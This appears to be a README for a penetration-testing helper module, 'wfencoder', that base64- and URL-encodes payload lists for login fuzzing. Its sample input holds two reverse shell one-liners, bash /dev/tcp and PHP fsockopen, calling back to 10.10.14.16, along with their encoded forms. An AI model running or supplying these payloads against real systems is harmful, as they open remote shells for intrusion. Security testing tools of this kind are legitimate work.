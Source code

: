#### Use case

    More often than not, I am constantly testing URL encoded and base64
    encoded payloads when trying to get a foothold.
    This module is just for speeding up the proccess.

#### Sample module wfencoder - Encode file contents

    If the foothold requires fuzzing a login, this module can help with the payload.
    Sometimes, the login requires a base64 encoded set of credentials.
    Sometimes that base64 encoded data needs to be url encoded after the base64 encoding.
    Below shows both examples.

    Test1:
        Cred.txt
            user:pass
            james:jones
            alex:mercer

        wfencoder -if fuzzFile.txt -be
            dXNlcjpwYXNz
            amFtZXM6am9uZXM=
            YWxleDptZXJjZXI=

    Test2:
        RTCP.txt
            /bin/sh -c '/bin/sh -i >& /dev/tcp/10.10.14.16/4443 0>&1'
            php -r '$sock=fsockopen("10.10.14.16",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

        wfencoder -if fuzzFile.txt -be
            L2Jpbi9zaCAtYyAnL2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQzIDA+JjEn
            cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEwLjE0LjE2Iiw0NDQ0KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc=

        wfencoder -if fuzzFile.txt -ue v3
            %2Fbin%2Fsh%20-c%20%27%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.16%2F4443%200%3E%261%27
            php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.14.16%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27

        wfencoder -if fuzzFile.txt -be -ue v3
            L2Jpbi9zaCAtYyAnL2Jpbi9zaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNi80NDQzIDA%2BJjEn
            cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEwLjE0LjE2Iiw0NDQ0KTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2BJjMgMj4mMyIpOyc%3D

##### _All modules have helper flags -h and --help for more assistance._
